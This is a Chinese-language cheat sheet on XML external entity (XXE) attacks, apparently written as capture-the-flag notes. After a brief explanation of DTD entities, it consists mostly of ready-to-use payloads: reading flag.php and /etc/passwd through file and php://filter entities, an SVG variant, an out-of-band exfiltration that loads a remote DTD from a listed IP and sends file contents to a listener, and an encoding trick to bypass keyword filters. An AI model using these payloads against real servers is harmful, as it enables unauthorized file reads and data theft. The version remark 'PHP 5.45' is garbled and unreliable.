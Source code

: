 ```yaml
---
title: XXE
---
```

# XXE

XXE （ PHP 5.45之后不解析实体 ）

```
<!DOCTYPE 根标签名 SYSTEM "文件名">
```

DTD实体是用于定义引用文本或字符的快捷方式的变量，可内部声明或外部引用。

约束通过类别关键词 ANY 声明的元素，可包含任何可解析数据的组合：

```
<!ELEMENT 标签名 ANY>
```

同时xxe可进行内网探测读取 /etc/hosts



## Payload

PHP文件读取

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">]>
<creds>
<user>&xxe;</user>
</creds>
```

file协议读取文件

```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
    	<core id="test101">
     		<description>&xxe;</description>
  		</core>
</catalog>
```

SVG格式

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "要读取的文件路径" >
]>
<svg height="100" width="1000">
  		<text x="10" y="20">&file;</text>
</svg>
```

数据外带

```
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://174.1.66.167/shell.dtd">
%remote;
]>

shell.dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:5555/?flag=%file;'>">
%int;
%send;
```

xxe绕过的payload

当只过滤了SYSTEM，PUBLIC等关键字时，可用双重实体编码绕过

```
<?xml version="1.0"?>

<!DOCTYPE GVI [

    <!ENTITY % xml "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#46;&#116;&#120;&#116;&#34;&#32;&#62;&#93;&#62;&#10;&#60;&#99;&#111;&#114;&#101;&#62;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#60;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#38;&#120;&#120;&#101;&#59;&#60;&#47;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#10;&#60;&#47;&#99;&#111;&#114;&#101;&#62;">

    %xml;
```

即为在xml实体中再定义一次xml，可成功被解析，支持dtd数据外带

```
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<core>
      <message>&xxe;</message>
</core>
```

以上为编码部分内容

